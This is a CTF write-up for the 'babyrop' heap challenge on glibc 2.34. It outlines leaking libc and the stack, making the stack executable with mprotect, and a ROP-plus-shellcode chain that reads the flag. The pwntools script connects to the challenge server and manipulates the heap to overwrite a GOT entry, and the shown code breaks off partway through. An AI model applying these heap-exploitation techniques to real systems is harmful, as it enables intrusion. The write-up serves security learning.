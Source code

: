 

# Exploit

Since this is glibc 2.34, we don't have __malloc_hook nor we could hijack heap pointer. We will move the attack to stack.

1. Leak libc, leak stack and calculate offset from environ to the return pointer of main function (it's 0x140).

2. Use mprotect to set RWX flag for stack.

3. Combined ROPchain and shellcode to make an Open-Read-Write exploit to the flag.

code:
```python
from pwn import *

BEDUG = False

libc = ELF('./libc.so.6')
elf = ELF('./babyrop')
if BEDUG==True:
    io = process('./babyrop', env={"LD_PRELOAD": "./libc.so.6"})
else:
    io = remote('mc.ax', 31245)

def C(index, size, data):
    io.recvuntil(b'enter your command: ')
    io.sendline(b'C')
    io.recvuntil(b'enter your index: ')
    io.sendline(str(index).encode('utf-8'))
    io.recvuntil(b'How long is your safe_string: ')
    io.sendline(str(size).encode('utf-8'))
    io.recvuntil(b'enter your string: ')
    io.send(data)

def F(index):
    io.recvuntil(b'enter your command: ')
    io.sendline(b'F')
    io.recvuntil(b'enter your index: ')
    io.sendline(str(index).encode('utf-8'))

def R(index):
    io.recvuntil(b'enter your command: ')
    io.sendline(b'R')
    io.recvuntil(b'enter your index: ')
    io.sendline(str(index).encode('utf-8'))


def W(index, dat):
    io.recvuntil(b'enter your command: ')
    io.sendline(b'W')
    io.recvuntil(b'enter your index: ')
    io.sendline(str(index).encode('utf-8'))
    io.recvuntil(b'enter your string: ')
    io.send(dat)

C(0, 24, b'A')
F(0)
C(1, -1, b'')
C(2, -1, b'')
F(2)
F(1)
C(0, 24, p64(8)+p64(elf.got['puts']))
```